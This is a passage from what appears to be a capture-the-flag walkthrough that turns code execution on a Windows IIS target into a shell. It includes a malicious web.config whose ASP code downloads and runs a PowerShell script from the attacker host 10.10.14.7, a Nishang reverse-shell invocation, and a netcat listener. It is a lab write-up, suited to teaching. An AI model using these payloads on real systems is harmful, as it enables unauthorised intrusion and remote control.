 We definitely have code execution! Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _web.config_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the _web.config_ file and view it.

![](../images/max/678/1*XNUp2itsgs1YEkcYHUVBBQ.png)

We get a shell! Let’s try to grab the _user.txt_ flag.

```text
PS C:\windows\system32\inetsrv> cd c:\Users\merlin\Desktop
PS C:\Users\merlin\Desktop> dir
PS C:\Users\merlin\Desktop>
```
